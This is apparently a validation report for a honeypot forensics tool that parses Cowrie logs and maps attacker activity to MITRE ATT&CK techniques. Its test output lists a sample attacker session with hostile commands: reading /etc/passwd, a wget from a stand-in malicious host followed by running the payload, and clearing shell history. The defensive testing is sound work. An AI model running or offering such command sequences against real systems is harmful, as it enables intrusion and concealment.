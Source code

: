 
## FASE 3: VALIDAÇÃO E TESTES (COMPLETA)

### Teste 1: Syntax Validation
```bash
✅ All files compiled successfully
```

### Teste 2: Import Validation
```bash
✅ Parsers imported successfully
✅ TTP Mapper imported successfully
✅ Models imported successfully
✅ CowrieJSONParser instantiated
✅ TTPMapper instantiated with 27 techniques
✅ TTP mapping test: 7 TTPs identified
```

### Teste 3: End-to-End Pipeline
**Test File**: `/tmp/forensics_test/cowrie_test.json`  
**Conteúdo**: 13 eventos Cowrie (login, commands, download)

**Resultados**:
```
📁 PARSED DATA:
  Attacker IP: 45.142.120.15
  Attack Type: ssh_compromise_malware_download
  Credentials Found: 1
    - root:toor
  Commands Executed: 7
    - uname -a
    - whoami
    - cat /etc/passwd
    - wget http://malicious.com/payload.sh
    - chmod +x payload.sh
    - ./payload.sh
    - history -c
  File Downloads: 1
    - abc123def456
  Sessions: 1
  Timestamps: 13

🎯 TTP MAPPING:
  TTPs Identified: 11
    - T1003: OS Credential Dumping (Credential Access)
    - T1005: Data from Local System (Collection)
    - T1033: System Owner/User Discovery (Discovery)
    - T1053: Scheduled Task/Job (Persistence)
    - T1070.003: Indicator Removal: Clear Command History (Defense Evasion)
    - T1071.001: Application Layer Protocol: Web Protocols (Command and Control)
    - T1082: System Information Discovery (Discovery)
    - T1098: Account Manipulation (Persistence)
    - T1105: Ingress Tool Transfer (Command and Control)
    - T1110.001: Brute Force: Password Guessing (Credential Access)

📊 METADATA:
  Successful Logins: 1
  Failed Logins: 2
  Total Commands: 7
  File Downloads: 1
  File Size: 2026 bytes
  File Hash: e9ca4de305afd5ba...
```
